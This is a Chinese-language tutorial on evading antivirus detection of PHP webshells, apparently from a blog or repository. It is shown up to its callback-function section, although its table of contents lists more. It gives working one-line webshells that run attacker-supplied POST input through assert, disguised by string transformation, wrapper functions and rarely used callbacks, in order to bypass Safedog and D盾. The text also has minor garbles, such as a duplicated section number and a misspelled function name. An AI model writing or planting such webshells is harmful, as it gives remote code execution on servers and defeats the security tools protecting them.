 # 0x01 前言
尽最大努力在一文中让大家掌握一些有用的WEBSHELL免杀技巧

# 0x02 目录
0. 关于eval 于 assert
1. 字符串变形
2. 定义函数绕过
3. 回调函数
4. 回调函数变形
5. 特殊字符干扰
6. 数组
7. 类
8. 编码绕过
9. PHP7.1后webshell何去何从

# 0x03 关于eval 于 assert

关于eval函数在php给出的官方说明是
>eval 是一个语言构造器而不是一个函数，不能被 可变函数 调用
可变函数：通过一个变量，获取其对应的变量值，然后通过给该值增加一个括号()，让系统认为该值是一个函数，从而当做函数来执行
通俗的说比如你 `<?php $a=eval;$a() ?>` 这样是不行的 也造就了用eval的话达不到assert的灵活，但是在php7.1以上assert已经不行

关于assert函数
>assert() 回调函数在构建自动测试套件的时候尤其有用，因为它们允许你简易地捕获传入断言的代码，并包含断言的位置信息。 当信息能够被其他方法捕获，使用断言可以让它更快更方便！

# 0x04 字符串变形
字符串变形多数用于BYPASS安全狗，相当对于D盾，安全狗更加重视"形"
一个特殊的变形就能绕过安全狗，看看PHP手册，有着很多关于操作字符串的函数

```
ucwords() //函数把字符串中每个单词的首字符转换为大写。
ucfirst() //函数把字符串中的首字符转换为大写。
trim() //函数从字符串的两端删除空白字符和其他预定义字符。
substr_replace() //函数把字符串的一部分替换为另一个字符串
substr() //函数返回字符串的一部分。
strtr() //函数转换字符串中特定的字符。
strtoupper() //函数把字符串转换为大写。
strtolower() //函数把字符串转换为小写。
strtok() //函数把字符串分割为更小的字符串
str_rot13() //函数对字符串执行 ROT13 编码。

```

由于PHP的灵活性操作字符串的函数很多，我这里就不一一列举了

用`substr_replace()` 函数变形assert 达到免杀的效果

```
<?php

$a = substr_replace("assexx","rt",4);

$a($_POST['x']);

?>

```


其他函数类似 不一一列举了

# 0x05 定义函数绕过
定义一个函数把关键词分割达到bypass效果

```
<?php 
function kdog($a){
    $a($_POST['x']);
}
kdog(assert);
?>
```

反之

```
<?php 
function kdog($a){
    assert($a);
}
kdog($_POST[x]);
?>

```

效果一样，这种绕过方法，对安全狗还是比较有效的 在d盾面前就显得小儿科了 ，不过后面会讲到如何用定义函数的方法来 绕过d盾


# 0x05 回调函数

```
call_user_func_array()
call_user_func()
array_filter() 
array_walk()  
array_map()
registregister_shutdown_function()
register_tick_function()
filter_var() 
filter_var_array() 
uasort() 
uksort() 
array_reduce()
array_walk() 
array_walk_recursive()
```

回调函数大部分已经被安全软件加入全家桶套餐 所以找到一个生僻的不常用的回调函数来执行 比如

```
<?php 
forward_static_call_array(assert,array($_POST[x]));
?>
```
